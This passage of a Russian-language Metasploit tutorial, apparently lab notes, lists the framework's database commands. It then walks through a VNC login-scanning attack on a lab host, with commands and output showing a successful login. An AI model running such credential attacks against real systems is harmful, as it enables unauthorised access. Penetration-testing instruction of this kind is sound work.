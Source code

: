 \begin{lstlisting}
Database Backend Commands
=========================

Command           Description
-------           -----------
creds             List all credentials in the database
db_connect        Connect to an existing database
db_disconnect     Disconnect from the current database instance
db_export         Export a file containing the contents of the database
db_import         Import a scan result file (filetype will be auto-detected)
db_nmap           Executes nmap and records the output automatically
db_rebuild_cache  Rebuilds the database-stored module cache
db_status         Show the current database status
hosts             List all hosts in the database
loot              List all loot in the database
notes             List all notes in the database
services          List all services in the database
vulns             List all vulnerabilities in the database
workspace         Switch between database workspaces
\end{lstlisting}

Самое интересное:
\begin{itemize}
	\item set - установить переменную
	\item use - выбрать текущий модуль
\end{itemize}

\subsection{Атака на VNC}
VNC - протокол для удаленного управления рабочим столом.

Здесь и далее: адрес атакуемой машины - 10.0.0.1, адрес машины с Kali - 10.0.0.2.

\begin{lstlisting}
msf > search vnc
[!] Module database cache not built yet, using slow search

Matching Modules
================

Name                                                 Disclosure Date  Rank       Description
----                                                 ---------------  ----       -----------
auxiliary/admin/vnc/realvnc_41_bypass                2006-05-15       normal     RealVNC NULL Authentication Mode Bypass
auxiliary/scanner/vnc/vnc_login                                       normal     VNC Authentication Scanner
\end{lstlisting}

\begin{lstlisting}
msf > use auxiliary/scanner/vnc/vnc_login
msf auxiliary(vnc_login) > set RHOSTS 10.0.0.1
RHOSTS => 10.0.0.1
msf auxiliary(vnc_login) > exploit

[*] 10.0.0.1:5900 - Starting VNC login sweep
[!] No active DB -- Credential data will not be saved!
[+] 10.0.0.1:5900 - LOGIN SUCCESSFUL: :password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}


